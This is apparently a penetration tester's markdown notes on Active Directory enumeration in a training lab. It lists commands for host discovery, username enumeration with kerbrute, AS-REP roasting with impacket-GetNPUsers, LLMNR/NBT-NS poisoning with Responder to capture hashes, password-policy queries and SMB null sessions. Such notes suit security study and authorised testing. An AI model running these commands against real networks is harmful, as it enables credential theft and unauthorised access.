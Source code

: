 # enumeration
## hosts and domains
- find hosts
```bash
sudo responder -I ens224 -A
```
or use tcpdump or wireshark
- fping
```bash
fping -asgq 172.16.5.0/23
```
## users
- kerbrute
[ https://github.com/ropnop/kerbrute ](https://github.com/ropnop/kerbrute)
then make all

move to path (echo $PATH then mv there)
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
**note: kerbrute doesn't play well with proxychains try using impacket-GetNPUsers instead**
```bash
proxychains impacket-GetNPUsers -dc-ip 10.0.23.101 -no-pass -usersfile test.names -request -outputfile test2.tgs NETW255.LOCAL/ | grep User >> no_preauth_users.log
```
- having a system account is equivalent to having a domain user account because it can impersonate a computer
### RESPONDER
NBT-NS spoofing/ LLMNR poisoning
- NBT-NS netbios resolution
- LLMNR link local multicast Resolution
- when dns fails
```bash
sudo Responder -I eth0
# captured hashes in /usr/share/responder/logs
```
# password policy enumeration
- crackmapexec
```bash
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
- rpcclient
- check for anonymous bind RPC
```bash
rpcclient -U "" -N 172.16.5.5
querydominfo
cat rpc_users.txt | sed -n 's/.*user:\[\(.*\)\] rid:.*/\1/p'
getdompwinfo
``
- lockout times are in 100 nano seconds so 18000000000 is 30 minutes
- enum4linux
- smb null session windows
```powershell
net use \\DC01\ipc$ "" /u:""
# can query using net use like
net use \\DC01\ipc$ "password" /u:guest
```
- authenticated to windows domain host
```cmd
net accounts
```